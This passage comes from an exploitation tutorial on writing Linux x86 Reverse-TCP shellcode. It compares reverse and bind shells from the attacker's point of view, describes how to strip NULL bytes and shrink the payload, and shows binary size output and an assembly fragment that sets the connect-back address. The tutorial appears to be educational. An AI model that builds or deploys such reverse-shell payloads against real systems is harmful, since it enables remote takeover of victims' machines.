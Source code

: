     * This is one point where Reverse-TCP Shellcode has an advantage over Bind-TCP Shellcode. 

    * Always, one has to decide the IP Address and Port Number of the Server. 

    * In Reverse-TCP Shellcode, the Attacker runs the server program. Attacker can make sure that the his/her system has a Non-NULL byte IP Address and Port Number. 

    * In Bind-TCP Shellcode, the Victim's system is the Server. What if it's IP Address has a NULL byte? or the Shellcode tries to bind to a Non-NULL byte Port Number but fails because it is unavailable? These are things not under the control of the Attacker. 

    * So, with this in mind, Attacker has more control over the whole exploit when Reverse-TCP Shellcode is used. 



These are the 4 things I did to completely remove NULL-bytes from our **revshell.asm**. I suggest you apply all these observations, come up with better, efficient ways to remove NULL-bytes from shellcode. The new assembly program I got after making required changes is [revshell2.asm](/assets/2018-12-07-exploitation-using-code-injection-part03/revshell2.asm). 

Assemble it, link it and run it to confirm. 

Let us compare the sizes of **revshell** and **revshell2**. 

    rev_eng_series/post_11$ size revshell
    text	   data	    bss	    dec	    hex	filename
    156	      0	      0	    156	     9c	revshell
    rev_eng_series/post_11$ size revshell2
    text	   data	    bss	    dec	    hex	filename
    108	      0	      0	    110	     6e	revshell2

That is great! We removed NULL-bytes and also reduced the size of shellcode by 48 bytes. 

For **revshell2.asm**, extract the shellcode and make sure it is working. 


# Can we do better? 

Out of the 2 things we discussed, the first thing is done. We have full functional no-NULL byte Reverse-TCP Shellcode with us. But the problem is it's size is **108** bytes. Let us try reducing it's size atleast below 100 bytes. 

From here, I will be refering to [revshell2.asm](/assets/2018-12-07-exploitation-using-code-injection-part03/revshell2.asm).

1. First thing we can do is the remove the **exit** code from it. That will shorten the shellcode by **8** bytes. 

2. There is one important observation to make in **revshell2.asm**. Consider the piece of code where we store the Attacker's details. 

        push edx
        push edx
        push edx
        push edx
        mov byte [esp] , 0x2                    ; AF_INET - 2 bytes
        mov word [esp + 0x2], 0x1027            ; htons(0x2710) - 2 bytes
        mov dword[esp + 0x4], 0x0101017f        ; IP Address - 4 bytes
